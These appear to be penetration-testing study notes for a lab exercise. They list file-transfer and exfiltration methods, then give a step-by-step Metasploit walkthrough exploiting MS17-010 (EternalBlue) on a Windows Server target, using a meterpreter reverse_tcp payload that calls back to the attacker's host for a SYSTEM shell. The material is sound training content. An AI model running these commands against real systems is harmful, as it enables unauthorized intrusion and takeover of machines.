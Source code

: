 - **Payloads All The Things**: 
  - A great resource for file transfer oneliners and quick methods to move files between hosts.

- **SMB**: 
  - Useful for transferring files between domain-joined hosts with shared drives. Attackers can exploit C$ and admin$ shares for payload transfer or data exfiltration.

- **Remote execution via MSF**: 
  - Metasploit modules can automatically build, stage, and execute payloads on remote hosts.

- **Other Protocols**: 
  - Protocols like FTP, TFTP, HTTP/S can be used for file transfers. Always enumerate open services and see what's available for use.

## Example Compromise Walkthrough

### 1. **Enumeration of the Host**
- Use tools like Ping, Netcat, Nmap, or Metasploit for host enumeration.
- **Nmap Scan Command**: `nmap -v -A 10.129.201.97`
  - Open Ports: 135 (msrpc), 80 (http), 139 (netbios-ssn), 445 (microsoft-ds).
  - Host OS: Windows Server 2016 Standard 6.3.
  - IIS service running on port 80; SMB open on ports 139/445.
  
### 2. **Determine Exploit Path**
- **Potential exploits**: IIS vulnerabilities, SMB exploits, or Remote Code Execution (RCE).
- **MS17-010 (EternalBlue)**: Windows Server 2016 is vulnerable. Validate using the `auxiliary/scanner/smb/smb_ms17_010` module in Metasploit.

### 3. **Validate Vulnerability (MS17-010)**
- Open `msfconsole`, use the auxiliary scanner for MS17-010.
  - Command: `use auxiliary/scanner/smb/smb_ms17_010`
  - Set RHOSTS to target IP: `set RHOSTS 10.129.201.97`
  - Run the module: `run`
  - Result: Host is likely vulnerable to MS17-010.

### 4. **Select Exploit & Payload**
- Search for EternalBlue exploit: `search eternal`
  - Choose `exploit/windows/smb/ms17_010_psexec`.
  - Default payload: `windows/meterpreter/reverse_tcp`.
- Set necessary options: 
  - `set RHOSTS 10.129.201.97`
  - `set LHOST <your IP>`
  - `set LPORT 4444`

### 5. **Execute Exploit**
- Run the exploit: `exploit`
  - Successful: Gained **NT AUTHORITY\SYSTEM** shell with Meterpreter.
  
### 6. **Interact with Meterpreter Shell**
- Use Meterpreter for post-exploitation actions.
  - Command: `getuid` (to check current user).
  - Drop into a native system shell using: `shell`
  - Identify the shell type (CMD vs. PowerShell) by the prompt.
  